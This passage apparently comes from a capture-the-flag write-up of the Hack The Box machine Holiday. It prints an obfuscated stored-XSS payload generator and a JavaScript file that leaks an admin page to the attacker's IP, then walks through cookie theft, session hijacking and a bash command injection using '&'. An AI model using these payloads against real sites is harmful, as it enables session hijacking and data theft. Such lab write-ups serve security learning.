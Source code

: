 {% highlight Python linenos %}
payload = """document.write('<script src="http://10.10.14.25/x.js"></script>')"""
nums = [str(ord(i)) for i in payload]
print('<img src="x/><script>eval(String.fromCharCode('+','.join(nums)+'));</script>">')
{% endhighlight %}

Next, we put the JavaScript below in a file named "x.js". This code requests a specific booking page, encodes the response with base64 and then sends us the base64 encoded response. The idea is to retreive a specific booking page in the context of the administrator, since the page might include interesting session specific content. Note that the IP `10.10.14.25` has to be changed to your IP over the VPN connection for the script to be successful.

{% highlight JavaScript linenos %}
req1 = new XMLHttpRequest();
req1.open("GET","http://localhost:8000/vac/8dd841ff-3f44-4f2b-9324-9a833e2c6b65",false);
req1.send();
req2 = new XMLHttpRequest();
req2.open("GET","http://10.10.14.25/leak?x="+btoa(req1.responseText),false);
req2.send();
{% endhighlight %}

The next step is to start a web server by executing 
`sudo python3 -m http.server 80` in the directory where the `x.js` file is located. Thereafter, we generate the payload by executing `python3 generateEvilNote.py`, submit it as a note and wait for less than a minute. After waiting for a bit, the web server receives a request for the `x.js` file and a subsequent request which leaks the base64 encoded response. 

We can then proceed to copy the base64 encoded content from the web server output and putting it in a file named "x.b64". Then, we simply execute the command `cat x.b64 | base64 -d`, retrieve the cookie named "connect.sid" from the output of the command, place it in our browser session and navigate to `http://10.10.10.25:8000/admin`. At this point, we have hijacked the administrators session and navigating to the URL thus leads us to the page shown below. 

![export](/assets/2021-10-30-HTB-Holiday-Source-Code-Analysis/export.png)

When logged in as an administrator, there is a possiblity to export bookings or notes by pushing the buttons at the bottom of the page shown above. Pushing one of the buttons sends a `GET` requests to the "/admin/export" endpoint which includes a table name in a parameter named "table". After trying to send a variety of URL encoded special characters through this parameter, it is possible to deduce that the value of the `table` parameter is placed in a bash command which is executed. However, there is a filter in place which only allows for certain characters. One of the characters is the ampersand character `&` which can be used to execute any bash commands which can pass the filter.

